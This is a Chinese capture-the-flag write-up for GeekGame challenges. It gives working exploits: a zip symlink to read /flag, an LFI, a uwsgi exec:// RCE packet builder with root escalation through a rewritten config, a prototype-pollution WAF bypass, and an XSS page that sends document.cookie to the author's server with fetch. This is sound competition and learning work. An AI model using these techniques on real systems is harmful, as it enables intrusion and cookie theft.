我们现在还差 flag1。最后是搜索 "photoshop 直方图" 的时候看到有这个功能，想起来自己的 VM 里面有一份 PS CS6，把 art2.png 拖进去点直方图，然后点右上角那个警告符号（我到现在都不知道这个是什么功能），就能看到一张像条形码一样的图：



图 6. 直方图与条形码

直接扫是扫不出的，要反一下色，得到 <https://xmcp.ltd/KCwBa>。

> 你还记得高中的时候吗？那时在市里的重点中学，我们是同桌。我以前还怪讨人嫌的，老是惹你生气，然后你就不和我说话，我就死乞白赖地求你，或者讲笑话逗你。
> 
> 不过，你笑起来好可爱，从小就好可爱。此后的一切，也都是从那个笑容开始的吧。
> 
> 真的，好想回到那个时候啊。
> 
> Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook.
> 
> （以下全是 `Ook.` `Ook!` 和 `Ook?`，省略）

找个转换服务：<https://www.splitbrain.org/services/ook> 即可得到 flag1。

## 在线解压网站

（总榜一血）

看到源代码的第一反应就是软链接。

```shell
$ ln -s /flag flag
$ zip -y 1.zip flag
  adding: flag (stored 0%)
```

把 1.zip 传上去即可。

## 早期人类的聊天室

uwsgi 居然这么屑，作为 Python web dev 真是大开眼界。

首先，显然，查看 chatlog 的页面可以 LFI（本地文件包含）。通过 <https://prob17-placeholder.geekgame.pku.edu.cn/module?name=chatlog&log=../utils.py> 可以看到 `utils.py` 的源代码，没啥大问题。

但是包含不了 `/flag`，可能是权限不够，无论如何，既然是 Linux Docker，那就让我康康 `/proc/self/cmdline` 吧。

```
uwsgi�--ini�/tmp/uwsgi-ctf.ini�
```

再看看 `/tmp/uwsgi-ctf.ini`：

```ini
[uwsgi]
socket = :3031
chdir = /usr/src/ufctf
manage-script-name = true
mount = /=app:app
master = true
uid = nobody
gid = nogroup
workers = 2
buffer-size = 65535
enable-threads = true
pidfile = /tmp/uwsgi.pid
```

权限是 `nobody:nogroup`！怪不得。虽然我们是小小的 nobody，但是 PID 1 的 cmdline 还是能看的。查看 `/proc/1/cmdline`：

```
/sbin/docker-init�--�sh�run.sh�
```

`run.sh` 在哪里呢？找找就发现就在 `/usr/src/ufctf/run.sh`：

```shell
#!/bin/sh

cd /usr/src/ufctf

cp /flagtmp /flag
echo "" > /flagtmp

chown nobody -R . \
    && chmod 0666 -R /tmp/* \
    && chown root:root /flag \
    && chmod 0600 /flag

socat UNIX-LISTEN:/sock/socat.sock,fork,reuseaddr TCP4:127.0.0.1:8080 &

nginx -c /etc/nginx/nginx.conf
exec supervisord -n -c /etc/supervisor-ctf.conf
```

看 nginx 没啥问题，但是 supervisord 是不是也没啥问题呢？

```ini
[supervisord]
logfile=/tmp/supervisord.log ; main log file; default $CWD/supervisord.log
logfile_maxbytes=50MB        ; max main logfile bytes b4 rotation; default 50MB
logfile_backups=0           ; # of main logfile backups; 0 means none, default 10
loglevel=info                ; log level; default info; others: debug,warn,trace
pidfile=/tmp/supervisord.pid ; supervisord pidfile; default supervisord.pid
nodaemon=true               ; start in foreground if true; default false
silent=false                 ; no logs to stdout if true; default false
minfds=1024                  ; min. avail startup file descriptors; default 1024
minprocs=200                 ; min. avail process descriptors;default 200

[program:uwsgi]
command=uwsgi --ini /tmp/uwsgi-ctf.ini
user=root
autorestart=true
autostart=true
startretries=3
redirect_stderr=true
startsecs=5
stdout_logfile=/tmp/supervisor.log
stopasgroup=true
killasgroup=true
priority=999

[program:chatbot]
command=python /usr/src/ufctf/chatbot.py
user=nobody
autorestart=true
autostart=true
startretries=3
redirect_stderr=true
startsecs=5
stdout_logfile=/tmp/supervisor.log
stopasgroup=true
killasgroup=true
priority=999
```

啊，chatbot！本来还以为 chatbot 是 root 权限的，希望落空了！顺便偷偷瞄一眼 chatbot 的代码：

```python
#!/usr/bin/env python
#coding:utf-8

import socketserver
import base64, random


class ChatBotServer(socketserver.BaseRequestHandler):
    def handle(self):
        conn = self.request
        while True:
            data = conn.recv(2048).decode('utf8')
            if data.strip() == "exit":
                print("断开与%s的连接！" % (self.client_address,))
                conn.sendall((b"%s\n" % base64.b64encode('Goodbye!')))
                break
            r = [b'Hello!', b'Alola!', b'Nice to meet you.', b'What a wonderful game!', b'Try again and harder!', b'Good luck to you!']
            conn.sendall((b"%s\n" % base64.b64encode(random.choice(r))))
            break

if __name__ == '__main__':
    server = socketserver.ThreadingTCPServer(('127.0.0.1', 1234), ChatBotServer)
    print("启动ChatBot！")
    server.serve_forever()
```

也没啥问题。似乎陷入了僵局。去搜了搜和 uwsgi 相关的 ctf writeup，发现 uwsgi 有个自己的 protocol，而且似乎不会验证用户权限，而且**可以用 exec 伪协议执行任意命令**！

找了个网上的脚本魔改（写 wp 的时候找不到是基于哪个脚本改的了，如果有人知道的话欢迎告诉我）：

```python
host = "127.0.0.1"

def fromhex(data):
    padded = hex(data if isinstance(data, int) else len(data))[2:].rjust(4, '0')
    return bytes.fromhex(padded)[::-1]

def generate_packet(cmd):
    packet = {
        'SERVER_PROTOCOL': 'HTTP/1.1',
        'REQUEST_METHOD': 'GET',
        'PATH_INFO': "/nowhere",
        'REQUEST_URI': "/nowhere",
        'QUERY_STRING': "",
        'SERVER_NAME': host,
        'HTTP_HOST': host,
        'UWSGI_FILE': f"exec://{cmd}",
        'SCRIPT_NAME': "/nowhere"
    }

    pk = b''
    for k, v in packet.items() if hasattr(packet, 'items') else packet:
        pk += fromhex(k) + k.encode('utf8') + fromhex(v) + v.encode('utf8')
    result = b'\x00' + fromhex(pk) + b'\x00' + pk

    return result

packet = generate_packet("ls / > /tmp/taoky")
with open("payload", "wb") as f:
    f.write(packet)
```

执行之后做一次 base64，用主页的聊天功能对准 127.0.0.1:3031 发送，然后用 chatbot 页面看 `/tmp/taoky`，就能读取 `/tmp/taoky` 看到 `ls /` 的结果了。（对应的，stderr 的结果在 `/tmp/supervisor.log` 里头）

> 虽然现在还只是无权限的用户 不过 即使只是 `nobody`
> 
> 也会想着在哪一天 灿烂地成为 `root` 的吧

即使能 RCE 了，我们还是 nobody 用户。受到之前做的题目带来的 stereotype 的影响，我的第一反应是找 `setuid` binary，但是怎么找都找不到：执行 `find / -perm -u=s -type f`，可以发现找到的文件都是没法利用的。这里卡住了好久。

之后跑命令的时候发现，好像 uwsgi 配置 nobody 可以写入啊！而且 supervisor 检测到服务挂掉重启的时候最开始是 root 用户的身份启动服务的啊！所以 payload 大致长成这样：

```python
ini = """[uwsgi]
socket = :3031
chdir = /usr/src/ufctf
manage-script-name = true
mount = /=app:app
master = true
uid = root
gid = root
workers = 2
buffer-size = 65535
enable-threads = true
pidfile = /tmp/uwsgi.pid"""

#packet = generate_packet(f"echo '{ini}' > /tmp/uwsgi-ctf.ini")
packet = generate_packet("ps aux > /tmp/taoky")
#packet = generate_packet("kill -INT 52")
with open("payload", "wb") as f:
    f.write(packet)
```

先写入到 `/tmp/uwsgi-ctf.ini`，然后 `ps aux` 得到 uwsgi 主进程的进程号，然后对着这个进程 `kill -INT`（`kill -9` 好像会把整个服务搞挂），卡过一会之后我们就变身 root 了！（可以在 supervisor.log 里验证这一点）

既然成为了 root，读取 flag 什么的自然不在话下。

## Q小树洞的一大步

（第二阶段完成）

> 带着这些问题（指能不能 XSS），我们来审视一下Q小树洞。我们不得不面对一个非常尴尬的事实，那就是，每个人（指所有比赛选手）都不得不面对这些问题。Q小树洞因何而发生（XSS）？本人也是经过了深思熟虑，在每个日日夜夜思考这个问题。在这种困难的抉择下，本人思来想去，寝食难安（指因为玩 geekgame 晚上不睡觉）。

因为菜，所以第一阶段不想去逆向 webpack 生成的那堆东西（第一阶段先把壁纸换成[露营天下第一](https://prob15-qkuhole.geekgame.pku.edu.cn/hole/static/bg/yurucamp.jpg)，然后只发现了 URL `#` 之后可以加搜索词，以及 [pkuhelper 版的 P 大树洞](https://pkuhelper.pku.edu.cn/hole/)所谓的「GPL 协议开源」近乎是假的，指向的是一个 2020 年初已经 archive 的版本，与实际运行的版本差别不小，想通过检查 commit 记录来找安全更新的计划落空了）。第二阶段拿到了源代码，所以题目好做了很多。

先把 React 源代码全部下下来（通过浏览器检查元素），过一遍发现了一个「后门」和两个可能的问题点：

- `//setflag key=value` 可以修改 localStorage 中 key 项内容为 value。
- 既然可以任意修改 localStorage 的内容，那么和 localStorage 有关的点都可能出问题。最有可能出问题的是：
  - `APPSWITCHER_ITEMS`: 有个危险的 `eval()`
  - `hole_config`: 可以加载任意配置，改背景图的部分说不定可以用 `javascript:` 伪协议？

PS: `//setflag` 功能看起来应该是为了方便开发者调试用的，我这里称之为「后门」仅仅是因为叫起来方便，没有恶意。

为了确保环境一致，手动安装 selenium 和最新的 Chromium webdriver。**如果直接用自己的浏览器环境测试，因为首先不同浏览器的策略细节不同、可能会受到扩展干扰，而且用户设置（特别是关于 cookie 的）可能和 XSS bot 的不同，会造成其实可以跑的 payload 本地跑不了的问题**。

首先试试伪协议，尽管网络上很多人写 XSS 的文章都会把它列成一种 XSS 的「方法」，像这样：

```html

```

对应 Q 小树洞的代码，类似于这样：

```html
<div class="bg-img" style="background: transparent url('javascript:alert(\'它工作吗？\')') repeat scroll center center / cover;"></div>
```

**但是啊，自己测试一下就会发现，这样根本不行！至少 Chrome 和 Firefox 都不行！Chrome 会直接给你一个 `net::ERR_UNKNOWN_URL_SCHEME` 啊！不知道为什么都 2021 年了，还有人拿这个「技巧」抄来抄去的！**

那就重点看 `eval()` 附近的逻辑。引入 `eval()` 的是对应 React 组件的 `check_fix()` 方法：

```javascript
check_fix() {
    if(this.state.apps && this.state.apps.fix && this.state.apps.fix[this.props.appid])
        setTimeout(()=>{
            window.HOTFIX_CONTEXT={
                build_info: process.env.REACT_APP_BUILD_INFO || '---',
                build_env: process.env.NODE_ENV,
            };
            eval(this.state.apps.fix[this.props.appid]);
        },1); // make it async so failures won't be critical
}
```

看起来是处理动态下发前端代码修复的代码，会在 1 ms 后执行。再看看 `componentDidMount` 的逻辑：

```javascript
componentDidMount() {
    this.check_fix();
    setTimeout(()=>{
        fetch(SWITCHER_DATA_URL)
            .then((res)=>{
                if(!res.ok) throw Error(`网络错误 ${res.status} ${res.statusText}`);
                return res.text();
            })
            .then((txt)=>{
                if(txt!==localStorage['APPSWITCHER_ITEMS']) {
                    console.log('loaded new appswitcher items',txt);
                    localStorage['APPSWITCHER_ITEMS']=txt;

                    this.setState({
                        apps: this.get_apps_from_localstorage(),
                    });
                } else {
                    console.log('appswitcher items unchanged');
                }
            })
            .catch((e)=>{
                console.error('loading appswitcher items failed');
                console.trace(e);
            });
    },500);
}
```

而这个组件的构造函数：

```javascript
constructor(props) {
    super(props);
    this.state={
        apps: this.get_apps_from_localstorage(),
    }
}
```

`get_apps_from_localstorage()`:

```javascript
get_apps_from_localstorage() {
    let ret=FALLBACK_APPS;
    if(localStorage['APPSWITCHER_ITEMS'])
        try {
            let content=JSON.parse(localStorage['APPSWITCHER_ITEMS'])[SWITCHER_DATA_VER];
            if(!content || !content.bar)
                throw new Error('content is empty');

            ret=content;
        } catch(e) {
            console.error('load appswitcher items from localstorage failed');
            console.trace(e);
        }

    return ret;
}
```

查 React 的文档可以知道，组件初始化 (Mounting) 的时候执行顺序如下：

- `constructor()`
- `static getDerivedStateFromProps()`
- `render()`
- `componentDidMount()`

所以实际如果有 fix 的时候发生的事情：

1. 组件加载，从 localStorage 读取到 `apps` 数据并设置状态。
2. 设置 `check_fix()` 1ms 后执行。
3. 设置获取最新组件 500ms 后执行，它会用服务器上对应的 JSON 文件更新 localStorage 和组件 `apps` 的状态。

`AppSwitcher` 在 Title.js 里面被使用：

```jsx
<AppSwitcher appid="hole" />
```

参考正常加载后的 localStorage 内容，payload 大致长成这样：

```json
//setflag APPSWITCHER_ITEMS={"switcher_2":{"bar":[["hole","树洞","#","#",null,false]],"dropdown":[["homepage","客户端","#","#",null,false]],"fix":{"hole":"console.log(document.cookie);"}}}
```

另外，我们需要看一下 `//setflag`「后门」的逻辑：

```javascript
const flag_re=/^\/\/setflag ([a-zA-Z0-9_]+)=(.*)$/;

//（省略）

componentDidMount() {
    if(window.location.hash) {
        let text=decodeURIComponent(window.location.hash).substr(1);
        if(text.lastIndexOf('?')!==-1)
            text=text.substr(0,text.lastIndexOf('?')); // fuck wechat '#param?nsukey=...'
        this.setState({
            search_text: text,
        }, ()=>{
            this.on_keypress({key: 'Enter'});
        });
    }
}

//（省略）

on_keypress(event) {
    if(event.key==='Enter') {
        let flag_res=flag_re.exec(this.state.search_text);
        if(flag_res) {
            if(flag_res[2]) {
                localStorage[flag_res[1]]=flag_res[2];
                alert('Set Flag '+flag_res[1]+'='+flag_res[2]+'\nYou may need to refresh this webpage.');
            } else {
                delete localStorage[flag_res[1]];
                alert('Clear Flag '+flag_res[1]+'\nYou may need to refresh this webpage.');
            }
            return;
        }

        const mode=this.state.search_text.startsWith('#') ? 'single' : 'search';
        this.set_mode(mode,this.state.search_text||'');
    }
}
```

可以知道，如果在 URL 上动手脚，localStorage 是被立刻设置的——它可能比 `check_fix()` 早或者晚，但是肯定比更新 localStorage 早（500 毫秒可以干很多事情了）。

并且，XSS bot 无法处理 `alert()`，如果直接把这样的 payload 打进去，会抛出异常。所以我们需要一台有公网 IP 的服务器，然后用 `<iframe>` 来干坏事。

首先，`<iframe>` 可以确保里面的东西不随便弹框：

```html
<iframe id="a" height=600 width=600 sandbox="allow-scripts allow-same-origin" src="https://prob15-qkuhole.geekgame.pku.edu.cn/hole/"></iframe>
```

这里允许 `allow-scripts allow-same-origin` 以保证正常运行（毕竟我们自己不担心被攻击），这种设置下 `<iframe>` 里面的东西是弹不出对话框的。最开始的时候，可能会尝试从外面的 JS 控制里面的元素，但是因为同源策略的问题，这样是不行的。要思考一下怎么做：

1. `<iframe>` 加载带有我们 payload 的网页。
2. 在 localStorage 更新后、`fetch` 到更新前刷新 `<iframe>`。
3. 刷新之后我们的 payload 就能在 1ms 之后执行，之后再更新 localStorage 就和我们没关系了。

怎么实现刷新？要注意的是我们摸不到 `<iframe>` 里面的 `window.reload()`，但是外面的脚本有权限设置 `src` 属性，设置成 `about:blank` 之后再改回来，就相当于刷新了。

基于这个思想，我的第一版 payload 大致长这样：

```html
<!DOCTYPE html>
<html>
<head>
<title>Welcome to caddy!</title>
<style>
    body {
        width: 35em;
        margin: 0 auto;
        font-family: Tahoma, Verdana, Arial, sans-serif;
    }
</style>
</head>
<body>
	<iframe id="a" height=600 width=600 sandbox="allow-scripts allow-same-origin" src="https://prob15-qkuhole.geekgame.pku.edu.cn/hole/#//setflag%20APPSWITCHER_ITEMS={%22switcher_2%22:{%22bar%22:[[%22hole%22,%22树洞%22,%22#%22,%22#%22,null,false]],%22dropdown%22:[[%22homepage%22,%22客户端%22,%22#%22,%22#%22,null,false]],%22fix%22:{%22hole%22:%22console.log('hello'+document.cookie);%22}}}"></iframe>
<h1>Welcome to caddy!</h1>
<p>If you see this page, the nginx web server is successfully uninstalled and
not working. Further configuration is not required.</p>

<p>For online documentation and support please refer to
<a href="http://nginx.org/">nginx.org</a>.<br/>
Commercial support is available at
<a href="http://nginx.com/">nginx.com</a>.</p>

<p><em>Just Kidding.</em></p>
		<script>
			setTimeout(() => {document.getElementById("a").src = "about:blank"; document.getElementById("a").src = "https://prob15-qkuhole.geekgame.pku.edu.cn"}, 500)
		</script>
</body>
</html>
```

（不要问我为什么文件内容这么生草，我是拿自己机器的 index.html 上面改的）

但是，在 console 里看不到 cookie，明明 localStorage 都能读！为什么？

<https://blog.heroku.com/chrome-changes-samesite-cookie>:

> As previously stated, Google Chrome will stop sending third-party cookies in cross-site requests unless the cookies are secured and flagged using an IETF standard called SameSite. In other words, the content from b.com (images, iframe, etc.) on a.com’s page will no longer be able to access b.com's cookies unless those cookies are secured and flagged appropriately.

这是在 Chrome 80+ 之后的变化。从此之后，直接设置的 cookie 的 `SameSite` 默认是 `Lax`，不能在嵌入为 `iframe` 的页面里面读取。

小饼干😭我的小饼干😭

不过 Lax 还是留了一点小口子的：

> Unlike None where cookies are always sent, Lax cookies are only sent on same-site request like Strict. However, Lax allows top-level navigation access with a safe HTTP method, like HTTP GET. The cookie will not be sent with cross-domain POST requests or when loading the site in a cross-origin frame, but it will be sent when you navigate to the site via a standard top-level `<a href=...>` link.

那么的话，刷新可以这么实现：网页上先放一个 `<a>` 指向 Q 小树洞，然后 500ms 后先设置 `src`（不让 `<iframe>` 继续加载），然后模拟点击这个 `<a>`，就可以绕过这个限制。

最终的 payload 在 <https://static.taoky.moe/zzhtql.html>，内容如下：

```html
<!DOCTYPE html>
<html>
<head>
<title>Welcome to caddy!</title>
<style>
    body {
        width: 35em;
        margin: 0 auto;
        font-family: Tahoma, Verdana, Arial, sans-serif;
    }
</style>
</head>
<body>
	<!--<iframe id="a" height=600 width=600 sandbox="allow-scripts allow-same-origin" src="https://prob15-qkuhole.geekgame.pku.edu.cn/hole/#//setflag%20hole_config={%22background_img%22:%22javascript:alert(1)%22,%22background_color%22:%22#113366%22,%22pressure%22:false,%22easter_egg%22:true,%22color_scheme%22:%22default%22}"></iframe>-->
	<iframe id="a" height=600 width=600 sandbox="allow-scripts allow-same-origin" src="https://prob15-qkuhole.geekgame.pku.edu.cn/hole/#//setflag%20APPSWITCHER_ITEMS={%22switcher_2%22:{%22bar%22:[[%22hole%22,%22树洞%22,%22#%22,%22#%22,null,false]],%22dropdown%22:[[%22homepage%22,%22客户端%22,%22#%22,%22#%22,null,false]],%22fix%22:{%22hole%22:%22console.log(document.cookie);fetch('https://static.taoky.moe/'+document.cookie);%22}}}"></iframe>
	<a href='https://prob15-qkuhole.geekgame.pku.edu.cn/hole/' id="b">Welcome to Q 小树洞！</a>
<h1>Welcome to caddy!</h1>
<p>If you see this page, the nginx web server is successfully uninstalled and
not working. Further configuration is not required.</p>

<p>For online documentation and support please refer to
<a href="http://nginx.org/">nginx.org</a>.<br/>
Commercial support is available at
<a href="http://nginx.com/">nginx.com</a>.</p>

<p><em>Just Kidding.</em></p>
		<script>
			// setTimeout(() => {document.getElementById("a").src = "about:blank"; document.getElementById("a").src = "https://prob15-qkuhole.geekgame.pku.edu.cn"}, 500)
			setTimeout(() => {document.getElementById("a").src = "about:blank";document.getElementById("b").click()}, 500)
			// setInterval(() => {document.title = document.getElementById("a").contentWindow.title},1000)
		</script>
</body>
</html>
```

`fetch` 那里改成自己的机器，`tail -f` 看一下 access log 就行了。

小饼干🤤我的小饼干🤤

## flag即服务

（第三小题未完成）

### 零·获得代码

首先可以猜到肯定又有 LFI 了。不带参数访问 `/api` 会抛出异常：

```
Error: EISDIR: illegal operation on a directory, read
    at Object.readSync (fs.js:617:3)
    at tryReadSync (fs.js:382:20)
    at Object.readFileSync (fs.js:419:19)
    at /usr/src/app/node_modules/jsonaas-backend/index.js:56:19
    at Layer.handle [as handle_request] (/usr/src/app/node_modules/express/lib/router/layer.js:95:5)
    at next (/usr/src/app/node_modules/express/lib/router/route.js:137:13)
    at Route.dispatch (/usr/src/app/node_modules/express/lib/router/route.js:112:3)
    at Layer.handle [as handle_request] (/usr/src/app/node_modules/express/lib/router/layer.js:95:5)
    at /usr/src/app/node_modules/express/lib/router/index.js:281:22
    at param (/usr/src/app/node_modules/express/lib/router/index.js:354:14)
```

几乎可以肯定是 LFI 了。直接浏览器里 `../` 是不行的，把 `/` 改成 `%2F` 就好了。因为是 node.js，所以肯定要康康 `package.json` (<https://prob11-placeholder.geekgame.pku.edu.cn/api/..%2F/package.json>)

```json
{"name":"demo-server","version":"1.0.0","description":"","scripts":{"start":"node --max-http-header-size=32768 start.js"},"author":"You","license":"WTFPL","dependencies":{"jsonaas-backend":"https://geekgame.pku.edu.cn/static/super-secret-jsonaas-backend-1.0.1.tgz"}}
```

下载 `super-secret-jsonaas-backend-1.0.1.tgz`，解压，可以看到 flag0:

```js
if(FLAG0!==`flag{${0.1+0.2}}`)
    return;
```

结果是啥不用我说了吧.png

另外，代码稍微修改一下就能在本地跑，方便调试。

### 壹·开通会员

第二小题需要读取 `FLAG1` 变量。尽管知道了 session secret，但是用不了，因为 `express-session` 默认的值是保存在服务器内存里的，空欢喜一场。从 `waf()` 来看，有可能是原型链污染。「激活」的逻辑如下：

```js
app.get('/activate', (req, res)=>{
    if(req.query.code===FLAG1) {
        req.session.activated = 1;
    }
    
    if(req.session.activated)
        res.send(`You have been activated. Activation code: ${FLAG1}`);
    else
        res.send('Wrong activation code :(');
});
```

我们的目标是让 `req.session.activated` 变成非空的一个东西。瞄一眼 `demo.json`:

```json
[
  {
    "name": "Foo",
    "age": 24,
    "type": "student"
  },
  {
    "name": "Bar",
    "age": 17,
    "type": "monster"
  }
]
```

`age` 应该是满足要求的，所以 `in_path=1/age`，之后是 `output` 的处理：

```js
let output = {};
//（省略）
let cur = output;
for(let term of out_path.slice(0, out_path.length-1)) {
    if(term.indexOf('_')!==-1) {
        res.send('Bad parameter!');
        return;
    }
    // no eval for out_path :)
    /*
    if(eval_mode && /^\([^a-zA-Z"',;]+\)$/.test(term))
        term = safe_eval(term);
    */
    if(cur[term]===undefined)
        cur[term] = {};
    cur = cur[term];
}
cur[out_path[out_path.length-1]] = data;
```

`data` 是 `in_path` 过滤后的结果。我们的目标是让最后原型被赋值为 `24`。先在 REPL 里头试试：

```shell
$ node
Welcome to Node.js v17.0.1.
Type ".help" for more information.
> session = {}
{}
> {}['__proto__']['activated'] = 24
24
> session.activated
24
```

但是这个 payload 用不了，因为会检查有没有 `_`，而且不好绕过。那换一个：

```shell
$ node
Welcome to Node.js v17.0.1.
Type ".help" for more information.
> session = {}
{}
> {}['constructor']
[Function: Object]
> {}['constructor']['prototype']
[Object: null prototype] {}
> {}['constructor']['prototype']['activated'] = 24
24
> session.activated
24
```

最后一个问题是：怎么绕过 `waf()`？先看一下逻辑：

```js
function waf(str) {
    for(let bad_name of Object.getOwnPropertyNames(({}).__proto__))
        if(str.indexOf(bad_name)!==-1)
            return true;
    return false;
}

// app.get('/api/:path(*)', (req, res)=>{
let path = 'data/'+req.params.path;
let in_path = req.query.in_path||'';
let out_path = req.query.out_path||'';
let prefix = req.session.prefix ? (req.session.prefix+'/') : '';
let eval_mode = req.session.eval_enabled===1;

if(waf(in_path) || waf(out_path) || waf(prefix)) {
    res.send('Bad parameter!');
    return;
}
```

如果环境配置恰当，`out_path` 的类型可以被推断为 `string | qs.ParsedQs | string[] | qs.ParsedQs[]`，是不是除了字符串，还有别的选择？比如说，如果是个数组呢？

```shell
$ node
Welcome to Node.js v17.0.1.
Type ".help" for more information.
> function waf(str) {
...     for(let bad_name of Object.getOwnPropertyNames(({}).__proto__))
...         if(str.indexOf(bad_name)!==-1)
...             return true;
...     return false;
... }
undefined
> waf(['constructor/prototype/activated'])
false
> waf('constructor/prototype/activated')
true
```

看起来可以，并且数组不会影响后面的逻辑，因为 `out_path = prefix + out_path;`：

```shell
> '' + ['constructor/prototype/activated']
'constructor/prototype/activated'
```

这就是 JavaScript 啊.png

最后看一下 express 是怎么解析 `req.query` 的：

<https://expressjs.com/en/api.html#req.query>

> This property is an object containing a property for each query string parameter in the route. When query parser is set to disabled, it is an empty object `{}`, otherwise it is the result of the configured query parser.

而 query parser:

> The extended query parser is based on qs.

默认配置是 "extended"。所以看一下 `qs` 包的文档：

> Parsing Arrays
> 
> You may specify an index as well:
> ```js
> var withIndexes = qs.parse('a[1]=c&a[0]=b');
> assert.deepEqual(withIndexes, { a: ['b', 'c'] });
> ```

好像可以，所以来整个 payload:

<http://localhost:8000/api/demo.json?in_path=1/age&out_path[1]=constructor/prototype/activated>


然后访问激活页面，即可获取 flag1。

Node.js，新时代的 PHP（确信

flag2 我的思路是 VM 逃逸，从 `/proc` 读取文件。但是我整不出足够短的 payload，jsfuck 生成的 payload 太长了，本地测试的时候就直接 413 了。

## 诡异的网关

IDA 什么的统统不需要。跑一下程序就能大概猜出我们需要读取 flag 用户存储的密码，但是密码不允许直接复制。

有一个有趣的事情是，Windows 里的「窗口」的含义非常广泛，一个按钮也可以是一个窗口（<https://docs.microsoft.com/en-us/windows/win32/learnwin32/what-is-a-window->）。而存在很多可以帮助开发者读取窗口内容的工具，比如说 Visual Studio 自带的 Spy++。我不想装这么大一个 VS，所以用的是 WinSpy++，把瞄准镜移到密码框即可。

感觉这题……和我出的那道密码生成器的不少选手的解法有点像，都是不去实际逆向逻辑，通过系统工具完成题目。

## 最强大脑

（仅做出第一题）

拖 IDA，就能发现初始化的时候会把 Flag 1 放在 brainfuck 内存区最后面。因为 payload 长度有限，没有办法一下子全部把 Flag 1 读出来。所以脚本如下：

```python
from zio import *
import time

token = b"your token"

i = 10
io = zio(("prob13.geekgame.pku.edu.cn", 10013))
io.read_until(b"token: ")
io.writeline(token)
io.read_until(b"hex): ")

io.writeline((b">" * (4096 - i * 2)).hex() + (b".>" * i).hex())
io.interact()
time.sleep(4)
print("=======")
```

`i` 从 10 开始可以读到 flag 左大括号部分，一步步把 `i` 减小，每次减一都能多读一个字符，最后可以获得完整的 flag。

这里用了 <https://github.com/zTrix/zio>，因为我不想在 macOS 上装一大个的 pwntools。最近看的时候发现他们终于支持 Python 3 了，于是就不用我自己之前 patch 过 py3 支持的版本了。

第二题好像是 JIT？不太会 pwn，溜了（

## 电子游戏概论

（仅做出第一题）

题注：Python 现有的逆向工具链真的是大问题没有，小问题一大堆。

先直接用压缩软件解压 exe，看到 `pythoncom38.dll`，说明环境是 Python 3.8。

看到了 "提示：1. 程序采用 py2exe 打包，但网上的脚本可能需要少量修改"，那当然去找 py2exe 解包工具，找到了 <https://github.com/matiasb/unpy2exe>，看到上次更新还是 `4 years ago`（不好的预感），没法直接用，会报 marshal 错误。又去翻 py2exe 代码：

<https://github.com/py2exe/py2exe/blob/master/py2exe/runtime.py#L331>

```python
script_info = struct.pack("IIII",
                          0x78563412,
                          optimize if optimize is not None else 0,
                          unbuffered if unbuffered is not None else 0,
                          len(script_data))
script_info += zippath + b"\0" + script_data + b"\0"
```

但是，unpy2exe 的处理 <https://github.com/matiasb/unpy2exe/blob/master/unpy2exe.py#L86>：

```python
def _get_co_from_dump(data):
    """Return the code objects from the dump."""
    # Read py2exe header
    current = struct.calcsize(b'iiii')
    metadata = struct.unpack(b'iiii', data[:current])

    # check py2exe magic number
    # assert(metadata[0] == 0x78563412)
    logging.info("Magic value: %x", metadata[0])
    logging.info("Code bytes length: %d", metadata[3])

    arcname = ''
    while six.indexbytes(data, current) != 0:
        arcname += chr(six.indexbytes(data, current))
        current += 1
    logging.info("Archive name: %s", arcname or '-')

    code_bytes = data[current + 1:]
    # verify code bytes count and metadata info
    # assert(len(code_bytes) == metadata[3])

    code_objects = marshal.loads(code_bytes)
    return code_objects
```

最后的 `\0` 没有去掉，需要把 `code_bytes = data[current + 1:]` 改成 `code_bytes = data[current + 1:len(data) - 1]` 才能解包。

但是仅仅这么做是不够的，因为之后解析生成的 pyc 会出错。查 pyc 格式看到资料 <https://hackmd.io/@C5qogZpXS6m0aedcVROJ6A/rkGBI_1ru?print-pdf#/>，里面提到 Python 3.8 的 pyc header 是 16 bytes，但是 unpy2exe 漏了 4 个 bytes：

```python
def _generate_pyc_header(python_version, size):
    if python_version is None:
        version = __current_magic()
        version_tuple = sys.version_info
    else:
        version = PYTHON_MAGIC_WORDS.get(python_version[:3], __current_magic())
        version_tuple = tuple(map(int, python_version.split('.')))

    header = version + __timestamp()
    if version_tuple[0] == 3 and version_tuple[1] >= 3:
        # source code size was added to pyc header since Python 3.3
        header += __source_size(size)
    return header
```

加 4 个 bytes，我也不知道填啥，看别的 pyc header 最后 4 个 bytes 都是 0，所以我就把这 4 个 bytes 改成了 0x00。

```python
def _generate_pyc_header(python_version, size):
    if python_version is None:
        version = __current_magic()
        print("[1] version:", version)
        version_tuple = sys.version_info
    else:
        version = PYTHON_MAGIC_WORDS.get(python_version[:3], __current_magic())
        print("[2] version:", version)
        version_tuple = tuple(map(int, python_version.split('.')))

    header = version + __timestamp()

    if version_tuple[0] == 3 and version_tuple[1] >= 3:
        # source code size was added to pyc header since Python 3.3
        header += __source_size(size)
    if version_tuple[0] == 3 and version_tuple[1] >= 8:
        header += b'\x00\x00\x00\x00'  # idk what it is, but size shall be 16bytes
    print("header size:", len(header))
    return header
```

之后就可以解包了。解包之后发现还差一个 `securesocket` 模块，去解压缩之后的文件夹里找就行。

然后用 `uncompyle6` 把 pyc 解析到源代码文件（`uncompyle6` 在面对缩进问题的时候不太靠谱，但是我的测试是 `decompile3` 更不靠谱）。调整一下几个明显的缩进问题，就能跑了。

顺便把 `get_platform_name()` 改了，不想每次跑都上报系统信息：

```python
def get_platform_name():
    u = platform.uname()
    # name = '%s (%s %s) on %s' % (u.node, u.system, u.version, u.processor)
    name = 'mcfx-fans (Arch Linux 20211117) on Apple M1 Pro Max'
    name = name.encode()
    name = name[:500]
    return name
```

以及 token 改成硬编码，毕竟每次打开都要输一遍也不舒服（

**但是你会发现，游戏 CPU 占用率飙升，并且人物不会自动掉坑里，操作到后期极其不跟手，根本没法玩。**

让我们来修吧。经过很长很长时间的调试，最后发现了两个问题：

1. 为什么 CPU 占用率这么高？因为游戏在重绘 (`tick_routine()`) 上花掉了太长的时间：

    ```python
    def tick_routine(redraw=False):
        global dg
        global onscreen

        def get_player_img():
            return player[(('Left' if game.player.left else 'Right') + ('Hurt' if game.player.life_restore else 'Normal'))]

        for y in range(GY):
            for x in range(GX):
                if not redraw:
                    if game.g[y][x] is not onscreen[y][x] or game.g[y][x] == Elem.player:
                        onscreen[y][x] = game.g[y][x]
                        if dg[y][x]:
                            canvas.delete(dg[y][x])
                    if game.g[y][x] == Elem.player:
                        dg[y][x] = canvas.create_image((x * SZ), (y * SZ), anchor='nw', image=(get_player_img()))
                    else:
                        dg[y][x] = canvas.create_image((x * SZ), (y * SZ), anchor='nw', image=(material[game.g[y][x]]))
